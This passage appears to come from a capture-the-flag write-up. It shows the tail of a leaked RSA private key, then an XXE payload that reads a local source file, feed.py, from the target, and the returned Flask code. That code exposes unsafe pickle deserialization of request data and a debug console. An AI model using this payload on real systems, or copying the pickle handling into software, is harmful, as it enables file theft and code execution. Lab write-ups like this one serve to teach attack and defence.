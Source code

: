 ```bash
ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

Let’s also try another method in getting a foothold. First, let’s reference the source code. We know from the home page, the file name of home page is feed.py:

```bash
<!DOCTYPE any [
  <!ENTITY xxe SYSTEM "file:///home/roosa/deploy/src/feed.py">
]>
<Something>
<Author>&xxe;</Author>
<Subject>HIsotry</Subject>
<Content>something</Content>
</Something>
```

Response:

```bash
  Author: ')
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)

@app.route("/")
def xss():
    return template('index.html')

@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")

@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']

## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)
```
